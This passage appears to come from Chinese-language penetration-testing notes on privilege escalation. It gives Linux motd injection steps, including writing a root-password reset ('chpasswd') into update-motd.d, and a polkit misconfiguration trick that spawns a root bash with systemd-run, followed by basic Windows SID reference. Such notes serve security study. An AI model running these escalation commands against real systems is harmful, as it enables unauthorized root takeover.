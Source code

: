   * 11）使用find命令提权

### 【Linux motd提权】

* **motd（message of the day）注入提权**
  登录ssh时会有一些欢迎信息，如果这些信息以root运行，并且用户对于这个文件可读可写时，可以提权
  
  * 1）拿到普通用户shell时，可以使用以下bash命令，获取属主为root，并且普通用户可以执行，可以写入的文件
  ```bash
  find / -type f -user root -perm -ug=x,0=w -exec ls -l '{}' \;2>/dev/null
  ```
  
  * 2）发现update-motd.d/00-header文件，进行写入，将root密码改为root123
  ```bash
  echo 'root123' | chpasswd
  ```

### 【Linux polcy kit提权】

* **polcy kit配置不当提权**
  * 1）首先确认含有s位的可执行文件，发现polkit-agent-helper-1含有s位
  * 2）使用能够触发helper的执行文件，如systemd-run
  * 3）利用systemd唤起一个bash，由于helper存在s位，则是以root用户唤起一个bash，完成提取
  ```bash
  systemd-run -t /bin/bash
  ```
  


&nbsp;

## Window系统提权

### 【windows权限控制系统】

一般不含有域的windows主机，权限控制一般有以下4种：
Security Identifier (SID)
access token
Mandatory Integrity Control
User Account Control.

* **SID**
  * windows中每一个实体都含有一个独一无二的SID值
  SID无法被更改
  * Windows 只使用 SID 而不是用户名来标识用于访问控制管理的主体。
  * SID格式：
    ```
    SID格式为 ： S-R-X-Y
    S：代表为SID
    R：version 一般为1
    X：标识符权限
    Y：标识符子权限
    32：RID 确定用户或组等主体。
    一般SID：S-1-5-21-1336799502-1441772794-948155058-1001
    ```
  * 常见SID值
    ```
    S-1-0-0                       Nobody  
    S-1-1-0	                      Everybody
    S-1-5-11                      Authenticated Users
    S-1-5-18                      Local System
    S-1-5-domainidentifier-500    Administrator
    ```
  